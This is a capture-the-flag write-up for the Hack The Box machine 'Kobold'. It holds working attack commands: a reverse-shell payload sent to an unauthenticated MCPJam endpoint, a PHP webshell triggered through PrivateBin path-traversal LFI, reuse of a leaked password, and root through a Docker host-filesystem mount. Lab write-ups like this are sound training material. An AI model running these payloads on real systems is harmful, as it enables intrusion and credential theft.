









# HTB Kobold — Writeup

**Difficulty:** Easy  
**Season:** HTB Season 10  
**OS:** Linux  
**Tags:** MCP, Docker, LFI, RCE, Credential Reuse

---

## Overview

Kobold is an Easy Linux machine from HTB Season 10. The attack chain is a great example of vulnerability chaining — no single step is complex, but you need to connect the dots. The entry point is an unauthenticated RCE in MCPJam Inspector, a dev tool from the AI/MCP ecosystem that is increasingly appearing in production environments. From there, we chain a PHP LFI via a shared Docker volume, extract credentials from a PrivateBin config, log into an Arcane Docker management dashboard, and finally escalate to root via Docker group membership.

**Kill Chain:**

```
RCE (MCPJam CVE) → shell as ben → LFI (PrivateBin CVE) → config leak → 
credential reuse (Arcane) → docker group → root
```

---

## Reconnaissance

### Port Scan

```bash
nmap -sV 10.129.27.12
```

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.6p1 Ubuntu
80/tcp  open  http    nginx 1.24.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
```

```bash
# Checking port 3552 specifically
nmap -p 3552 kobold.htb
```

```
PORT     STATE SERVICE
3552/tcp open  taserver
```

Port 80 redirects to HTTPS. The SSL certificate on port 443 is interesting — it contains a wildcard `*.kobold.htb` in the Subject Alternative Name field. This is a direct hint that subdomains exist and should be enumerated.

Add the target to `/etc/hosts`:

```bash
echo "10.129.27.12 kobold.htb" | sudo tee -a /etc/hosts
```
### Subdomain Enumeration

First, find the default response size to use as a filter:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u https://kobold.htb/ -H "Host: FUZZ.kobold.htb" -k
```

Common non-interesting results returned size 154. Filter them out:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u https://kobold.htb/ -H "Host: FUZZ.kobold.htb" -k -fs 154
```

```
bin   [Status: 200, Size: 24402]
mcp   [Status: 200, Size: 466]
```

Add both to `/etc/hosts`:

```bash
echo "10.129.27.12 bin.kobold.htb mcp.kobold.htb" | sudo tee -a /etc/hosts
```

---

## Enumeration

### bin.kobold.htb — PrivateBin 2.0.2


A self-hosted pastebin with client-side AES-256 encryption. Version **2.0.2** falls in the vulnerable range for **CVE-2025-64714** (LFI via template cookie). We'll use this later.

### mcp.kobold.htb — MCPJam Inspector v1.4.2



MCPJam Inspector is a development platform for testing MCP (Model Context Protocol) servers. The full dashboard — Servers, Chat, Tools, Settings — is accessible with **no authentication**. In Settings, Ollama is connected at `http://127.0.0.1:11434/api`. Version **1.4.2** is shown at the bottom.

### JavaScript Source Analysis

MCPJam is a React SPA. The frontend JavaScript contains hardcoded API paths. Download it and extract them:

```bash
curl -k https://mcp.kobold.htb/assets/index-DRYhT9Xb.js -o app.js
grep -oP '"/api/[^"]*"' app.js | sort -u
```

Key endpoints discovered:

```
/api/mcp/connect
/api/mcp/tools/list
/api/mcp/tools/execute
/api/mcp-cli-config
/api/mcp/chat-v2
```

> **Technique:** Analyzing bundled JavaScript is a standard recon step for SPAs. The minified frontend code always contains API paths that the app calls — these are invisible to directory scanners but readable in the source.

---

## Initial Access — RCE via MCPJam (CVE / GHSA-232v-j27c-5pp6)

MCPJam Inspector versions ≤ 1.4.2 have a critical unauthenticated RCE vulnerability. The `/api/mcp/connect` endpoint is designed to connect to local MCP servers via stdio transport. It accepts a `command` field — and executes it with no authentication and no validation.

Because MCPJam binds to `0.0.0.0` by default, the endpoint is remotely reachable.

Start a listener:

```bash
nc -lvnp 9001
```

Send the payload:

```bash
curl -k -X POST "https://mcp.kobold.htb/api/mcp/connect" \
  -H "Content-Type: application/json" \
  -d '{"serverConfig":{"command":"bash","args":["-c","bash -i >& /dev/tcp/10.10.16.113/9001 0>&1"],"env":{}},"serverId":"pwn"}'
```



Shell received as user **ben**. Stabilize it:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

### User Flag

```bash
ben@kobold:~$ cat /home/ben/user.txt
b178398e78...
```

---

## Privilege Escalation

### Internal Enumeration

Check groups and internal services:

```bash
id
# uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)

ss -tlnp
```

Key findings:

- **ben is in group `operator`**
- Port **8080** (localhost only) — PrivateBin Docker container
- Port **3552** — Arcane Docker management dashboard
- Port **6274** — MCPJam (node)

Check what the `operator` group can access:

```bash
find / -group operator 2>/dev/null
```



The `operator` group has **read/write access** to `/privatebin-data/` — a Docker volume shared between the host and the PrivateBin container. This is the key to the next step.

---

### PrivateBin LFI → Config Leak (CVE-2025-64714)

PrivateBin versions 1.7.7–2.0.2 have an LFI vulnerability in the template-switching feature. When `templateselection = true` in the config, the server trusts a `template` cookie and includes the referenced PHP file using path traversal relative to the `tpl/` directory.

**The chain:**

1. Write a PHP webshell to the shared volume (accessible from the host as ben)
2. Trigger LFI via the `template` cookie to execute it inside the container
3. Read the PrivateBin config to extract credentials

**Step 1 — Drop webshell from the host (shell as ben):**

```bash
cat > /privatebin-data/data/pwn.php << 'EOF'
<?php system($_GET['cmd']); ?>
EOF
```

**Step 2 — Verify LFI works (from Kali):**

```bash
curl -k https://bin.kobold.htb/ \
  -b "template=../data/pwn" \
  -G --data-urlencode "cmd=id"
```



**Step 3 — Read the PrivateBin config:**

```bash
curl -k https://bin.kobold.htb/ \
  -b "template=../data/pwn" \
  -G --data-urlencode "cmd=cat /srv/cfg/conf.php"
```

In the output, find the MySQL credentials section:

```ini
[model]
; Temporarily disabling while we migrate to new server for loadbalancing
;class = Database
[model_options]
dsn = "mysql:host=localhost;dbname=privatebin;charset=UTF8"
usr = "privatebin"
pwd = "ComplexP@sswordAdmin1928"
```

Password found: **`ComplexP@sswordAdmin1928`**

> **Note:** The comment says "temporarily disabled" — the database config is commented out, but the password is real and, as is common in real engagements, it gets reused.

---

### Credential Reuse — Arcane Dashboard

Every password found during a pentest should be tried on all discovered services. Arcane is running on port 3552 over plain HTTP.

A quick search for "Arcane default credentials" reveals the default login is `arcane / arcane-admin`. The password was changed, but the username was left as default.

Try: **username `arcane`** + **leaked password**:

```bash
curl -s -X POST http://kobold.htb:3552/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"arcane","password":"ComplexP@sswordAdmin1928"}'
```

```bash
{"success":true,"data":{"token":"eyJhbGci...","user":{"username":"arcane","displayName":"Arcane Admin","roles":["admin"]}}}
```

We're in. Arcane gives us full Docker management: containers, images, volumes, networks.

---

### Root — Docker Group (Two Paths)

#### Intended Path: Privileged Container via Arcane UI

In the Arcane web UI, create a new container:

- **Image:** `privatebin/nginx-fpm-alpine:2.0.2`
- **Command:** `/bin/bash`
- **User:** `0`
- **Volumes:** `/` → `/hostfs`
- **Security:** ✅ Privileged mode

**Basic tab** — image `privatebin/nginx-fpm-alpine:2.0.2`, command `/bin/bash`, user `0`:



**Volumes tab** — mount host `/` to container `/hostfs`:



**Network & Security tab** — Privileged mode enabled:



Start the container, open Shell, and read the flag:

```bash
cat /hostfs/root/root.txt
```

---

#### Alternative Path: newgrp docker (3 Commands)

This is the faster path — no UI needed.

`/etc/group` shows only **alice** in the docker group. But `/etc/gshadow` — the shadow file for groups — tells a different story:

```bash
cat /etc/gshadow | grep docker
# docker:!::alice,ben
```

**ben is also in the docker group via gshadow!** The `newgrp` command uses `gshadow` over `/etc/group`, so ben can switch to the docker group without a password:

```bash
newgrp docker
docker run --rm -u 0 -v /:/hostfs --entrypoint /bin/sh \
  privatebin/nginx-fpm-alpine:2.0.2 -c "cat /hostfs/root/root.txt"
```

```bash
ben@kobold:~$ newgrp docker
ben@kobold:~$ docker run --rm -u 0 -v /:/hostfs --entrypoint /bin/sh \
  privatebin/nginx-fpm-alpine:2.0.2 -c "cat /hostfs/root/root.txt"
fedbb9782....
```

Root obtained.

---

## Lessons Learned

**1. MCP tools are a new attack surface**  
MCPJam Inspector is not unique — as the MCP ecosystem grows, more dev tools are being deployed with `0.0.0.0` binding and no authentication. If you see MCP infrastructure in scope, check for unauthenticated endpoints immediately.

**2. Always check group membership thoroughly**  
`cat /etc/group` is not enough. `/etc/gshadow` can contain additional group members that are invisible to the standard command. Always check both.

**3. LFI in a container is not a dead end**  
An isolated LFI inside a Docker container looks useless at first glance. But if there is a shared volume with write access from the host, it becomes a full code execution chain.

**4. Credential reuse + default usernames**  
When you find a password, try it everywhere. And remember to look up default usernames for any product you encounter — the password may have been changed, but the username often stays as the default.

**5. Vulnerability chaining on Easy machines**  
Easy HTB machines rarely rely on a single complex exploit. The challenge is connecting simple steps: find a writable volume → drop a file → trigger LFI → read a config → reuse credentials → abuse Docker. Each step is straightforward; the skill is recognizing how they connect.

---

## References

- [GHSA-232v-j27c-5pp6](https://github.com/MCPJam/inspector/security/advisories/GHSA-232v-j27c-5pp6) — MCPJam Inspector RCE
- [CVE-2025-64714](https://nvd.nist.gov/vuln/detail/CVE-2025-64714) — PrivateBin LFI via template cookie
- [Arcane GitHub](https://github.com/getarcaneapp/arcane) — Default credentials in documentation
- `man newgrp` / `man gshadow` — gshadow takes priority over /etc/group